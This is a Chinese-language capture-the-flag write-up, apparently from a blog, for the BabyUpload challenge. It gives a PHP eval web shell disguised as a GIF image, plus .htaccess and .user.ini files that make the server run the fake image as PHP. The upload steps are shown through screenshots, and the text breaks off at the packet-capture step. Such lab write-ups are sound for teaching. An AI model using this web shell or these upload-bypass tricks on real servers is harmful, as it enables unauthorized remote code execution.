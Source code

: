 



<img src="https://i-blog.csdnimg.cn/blog_migrate/0ea3559c81801a6a0715df9c8fefc5e0.png" alt="" style="max-height:256px; box-sizing:content-box;" />


### [GXYCTF2019]BabyUpload

这道题还比较简单 用我们以前积累的东西就可以上传成功

编写payload

1.jpg

```cobol
GIF89a
<script language='php'>eval($_POST['a']);</script>
```

这里加了文件头  和 js辅助 来防止文件头检查 和php文件检查

现在有两个 一个是上传.user.ini 另一个是.htaccess

一个一个试过去吧

.htaccess

```bash
SetHandler application/x-httpd-php
```

这里没加文件头其实也无所谓 没有进行检查

.user.ini

```cobol
GIF89a                  
auto_prepend_file=1.jpg 
auto_append_file=1.jpg  
```

我们开始上传

先上传1.jpg



<img src="https://i-blog.csdnimg.cn/blog_migrate/c7fe228335d50547e64f2a54fdac59c2.png" alt="" style="max-height:104px; box-sizing:content-box;" />


再上传 .user.ini



<img src="https://i-blog.csdnimg.cn/blog_migrate/3f813539f0fcf1399d1d62f7ac18e618.png" alt="" style="max-height:226px; box-sizing:content-box;" />


我们抓包



<img src="https://i-blog.csdnimg.cn/blog_migrate/f1e86d276575684359041270c4601ceb.png" alt="" style="max-height:64px; box-sizing:content-box;" />

